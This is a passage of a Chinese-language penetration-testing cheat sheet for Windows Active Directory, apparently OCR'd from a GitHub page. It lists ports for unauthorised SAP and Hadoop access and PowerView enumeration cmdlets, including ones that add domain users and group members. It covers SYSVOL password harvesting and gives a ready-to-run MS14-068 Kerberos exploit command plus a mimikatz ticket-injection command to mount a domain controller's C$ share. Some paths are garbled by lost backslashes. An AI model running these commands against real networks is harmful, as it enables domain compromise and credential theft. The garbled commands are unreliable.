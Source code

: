 50000 SAP命令执行 
50060 hadoop 
50070,50030 hadoop默认端口未授权访问

###域渗透 
#### 信息搜集 
powerview.ps1 
```
Get-NetDomain - gets the name of the current user's domain
Get-NetForest - gets the forest associated with the current user's domain
Get-NetForestDomains - gets all domains for the current forest
Get-NetDomainControllers - gets the domain controllers for the current computer's domain
Get-NetCurrentUser - gets the current [domain\]username
Get-NetUser - returns all user objects, or the user specified (wildcard specifiable)
Get-NetUserSPNs - gets all user ServicePrincipalNames
Get-NetOUs - gets data for domain organization units
Get-NetGUIDOUs - finds domain OUs linked to a specific GUID
Invoke-NetUserAdd - adds a local or domain user
Get-NetGroups - gets a list of all current groups in the domain
Get-NetGroup - gets data for each user in a specified domain group
Get-NetLocalGroups - gets a list of localgroups on a remote host or hosts
Get-NetLocalGroup - gets the members of a localgroup on a remote host or hosts
Get-NetLocalServices - gets a list of running services/paths on a remote host or hosts
Invoke-NetGroupUserAdd - adds a user to a specified local or domain group
Get-NetComputers - gets a list of all current servers in the domain
Get-NetFileServers - get a list of file servers used by current domain users
Get-NetShare - gets share information for a specified server
Get-NetLoggedon - gets users actively logged onto a specified server
Get-NetSessions - gets active sessions on a specified server
Get-NetFileSessions - returned combined Get-NetSessions and Get-NetFiles
Get-NetConnections - gets active connections to a specific server resource (share)
Get-NetFiles - gets open files on a server
Get-NetProcesses - gets the remote processes and owners on a remote server
```
BloodHound
            
#### 获取域控的方法 
##### SYSVOL 
SYSVOL是指存储域公共文件服务器副本的共享文件夹，它们在域中所有的域控制器之间复制。 Sysvol文件夹是安装AD时创建的，它用来存放GPO、Script等信息。同时，存放在Sysvol文件夹中的信息，会复制到域中所有DC上。 
相关阅读: 
* [寻找SYSVOL里的密码和攻击GPP（组策略偏好） ](http://www.freebuf.com/vuls/92016.html)
* [Windows Server 2008 R2之四管理Sysvol文件夹 ](http://blog.51cto.com/ycrsjxy/203095)
* [SYSVOL中查找密码并利用组策略首选项 ](https://adsecurity.org/?p=2288)
* [利用SYSVOL还原组策略中保存的密码](https://xz.aliyun.com/t/1653) 

##### MS14-068 Kerberos 
```
python ms14-068.py -u 域用户@域名 -p 密码 -s 用户SID -d 域主机
```
利用mimikatz将工具得到的TGT_domainuser@SERVER.COM.ccache写入内存，创建缓存证书：
```
mimikatz.exe "kerberos::ptc c:TGT_darthsidious@pentest.com.ccache" exit
net use k: \pentest.comc$
```
相关阅读 :
* [Kerberos的工具包PyKEK](http://adsecurity.org/?p=676) 
* [深入解读MS14-068漏洞](http://www.freebuf.com/vuls/56081.html) 
* [Kerberos的安全漏洞](https://adsecurity.org/?p=541) 
